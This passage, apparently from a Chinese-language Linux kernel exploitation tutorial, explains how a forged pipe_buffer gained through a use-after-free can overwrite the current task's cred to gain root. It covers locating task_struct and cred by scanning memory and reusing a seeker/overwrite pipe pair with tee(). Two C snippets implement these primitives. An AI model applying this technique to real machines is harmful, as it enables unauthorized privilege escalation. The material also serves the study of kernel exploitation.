 **代码**：以下代码设置 `pipe_buffer->page` 指向当前任务的 cred 对象（假设已知cred对象的地址）所在的page，覆写为0提权。

```c
uint64_t cred_page = virt_to_page(target_obj, vbase); 			// virt_to_page() 就是以上这个公式的实现
uint64_t cred_off = (target_obj & 0xfff); 
 
pbuf->page = (long *)cred_page; 
pbuf->offset = cred_off + 0x4; 
pbuf->len = 0; 
pbuf->ops = (long *)FAKE_OPS; 
pbuf->flags = PIPE_BUF_FLAG_CAN_MERGE; 
pbuf->private = 0; 
... 
write(dest_pipe.wr, zeroes, 0x20); 
```

#### 3-2-2. 目标对象的地址未知

**假设**：假设目标对象的地址未知，我们需要先搜索 `task_struct` 和 `cred` 地址。可以先利用 `prctl()` 将当前任务的 `task_struct->comm` 设置为特定字符串，便于进行搜索定位。

**方法**：循环遍历i，将 `pipe_buffer->page` 设置为 `(vmemmap_base + ((0x100000000 >> 12) * 0x40)) + (0x40 * i)`，不断读取内存，直到找到当前任务的 `task_struct`，这样就能泄露 `cred` 地址。前提是我们需要多次触发漏洞，多次堆喷伪造 `pipe_buffer`。

**避免重新分配**：假设已知某个对象的地址，但并非目标对象的地址。例如，我们已知重叠的 `msg_msgseg` 和 `pipe_buffer` 地址，但是不知道目标 `cred` 对象的地址。我们可以通过某个 overwrite `pipe_buffer` 重复覆写某个 seeker `pipe_buffer`：

- （1）计算seeker `pipe_buffer` 所在的 page 地址；
- （2）创建另一个overwrite `pipe_buffer`；
- （3）触发UAF，并向 seeker `pipe_buffer->page` 所在的page进行写；
- （4）用 seeker pipe 作为 source，overwrite pipe 作为 dest，来调用 `tee()`。

现在，我们就有可靠的方法来覆写 seeker `pipe_buffer`，不需要重复堆喷和触发UAF，利用代码如下：

```c
void set_new_pipe_bufs_overwrite(char *buf, struct pipe_struct *overwrite, 
                                 char *obj_in_page, struct pipe_buffer *pbuf, 
                                 uint64_t new_page, uint32_t len, int *tail) 
{ 
    if(read(overwrite->read, buf, PAGE_SIZE) != PAGE_SIZE) 		// [1] read() 设置 overwriter 的 pipe_inode_info->tmp_page 指向 seeker `pipe_buffer` 对象所在的 page, 之后我们就能直接写入该 tmp_page
        error_out("read overwriter_pipe[0]"); 
 
    struct pipe_buffer *setpbuf = (struct pipe_buffer *) obj_in_page; 	// [2] 构造 new `pipe_buffer`
    setpbuf += (*tail) % 8; 
    (*tail)++;
    *setpbuf = *pbuf;
    setpbuf->page = (void *) new_page; 
    setpbuf->len = len; 
 
    if (write(overwrite->write, buf, PAGE_SIZE) != PAGE_SIZE) 	// [3] 通过 overwrite pipe 往 seeker `pipe_buffer` 写。内核会将指定内容写到 overwrite pipe 的 pipe_inode_info->tmp_page 指向的物理页
        error_out("write overwriter_pipe[1]"); 
} 
```

